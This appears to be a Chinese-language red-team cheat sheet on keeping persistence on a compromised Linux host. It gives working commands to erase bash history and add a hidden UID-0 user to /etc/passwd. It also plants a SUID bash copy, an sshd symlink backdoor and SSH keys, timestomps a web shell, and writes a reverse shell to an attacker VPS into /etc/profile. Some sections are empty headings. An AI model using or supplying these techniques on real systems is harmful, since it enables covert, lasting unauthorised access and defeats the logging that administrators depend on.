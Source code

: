 # Linux权限维持

### 0x00 隐藏历史记录

**1、在命令前加空格，命令不会被记录**

```shell
[空格]cat /etcpasswd
```

**2、设置命令不记录**

```shell
[空格]set +o history
```

恢复

```shell
set -o history
```

**3、删除history文件中指定行的命令，[num]为每行命令左边的标识。**

```shell
history -d [num]
```

**4、删除history文件内容**

```shell
# 向history文件写入空内容，覆盖原本内容
echo > ~/.bash_history

# 清空当前history记录
history -c
```



### 0x01 添加用户

**1、修改/etc/passwd，关键root权限用户**

```
/etc/passwd 各部分含义：
用户名：密码：用户ID：组ID：身份描述：用户的家目录：用户登录后所使用的SHELL

/etc/shadow 各部分含义：
用户名：密码的MD5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口令失效的天数：口令失效以后帐号会被锁定多少天：用户帐号到期时间：保留字段尚未使用
```

根据文件格式内容，在`/etc/passwd`中添加用户

```shell
perl -le 'print crypt("root123","salt")'			# 生成加密密码
sakVM8o4qjUfY

echo "yunkong:sakVM8o4qjUfY:0:0:root:/root:/bin/bash" >>/etc/passwd
```

**2、创建普通用户，在/etc/sudoers给这个用户添加sudo权限**

```shell
yunkong ALL=(ALL) NOPASSWD:ALL
```

**3、普通用户+SUID shell**

```shell
# 1、创建一个普通用户。

# 2、先切换成为root用户，并执行以下的命令。
cp /bin/bash /bin/.shell		# 名为.开头的隐藏文件
chmod 4755 /bin/.shell			# 赋予可执行的权限与SUID权限

# 3、切换为普通用户执行脚本。
 /bin/.shell -p  # bash2 针对 suid 有一些护卫的措施，需使用-p参数来获取一个root shell
```

### 0x02 ssh

**1、软连接**

```shell
# 1、创建一个软连接
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=5555;

# 2、连接
ssh root@192.168.12.131 -p 5555
```

**2、SSH 公钥免密登陆**

```shell
# 1、客户端生成公钥与私钥
ssh-keygen -t rsa
# 在/root/.ssh下生成id_rsa(私钥) id_rsa.pub(公钥)

# 2、将公钥上传到目标/root/.ssh下
scp id_rsa.pub root@192.168.219.226:/root/.ssh

# 3、目标修改文件名
mv id_rsa.pub authorized_keys

# 4、检查配置文件 /etc/ssh/sshd_config
PermitRootLogin yes                                # 允许root用户远程登录
PubkeyAuthentication yes                        # 允许公钥验证
AuthorizedKeysFile      .ssh/authorized_keys       # 指定公钥文件

# 5、ssh免密登录
```

**3、 ssh warpper后门**

**4、Crontab定时任务后门**

### 修改文件属性

**1、文件创建时间**

```shell
touch -r index.php shell.php
# touch -r 命令用于修改文件或者目录的时间属性，包括存取时间和更改时间。
```

### 4、Crontab定时任务后门



### 5、通过环境变量植入后门

常见的环境变量路径如下：

```shell
/etc/profile
/etc/profile.d/*.sh
~/.bash_profile
~/.profile
~/.bashrc
~/bash_logout
/etc/bashrc
/etc/bash.bashrc
```

将反弹shell命令写入环境变量

```shell
echo 'bash -i >& /dev/tcp/[vps-ip]/[port] 0>&1' >> /etc/profile
```

这样当系统重启了之后，便会将shell反弹到vps上了



### 5、自启动脚本



### 6、其他方式

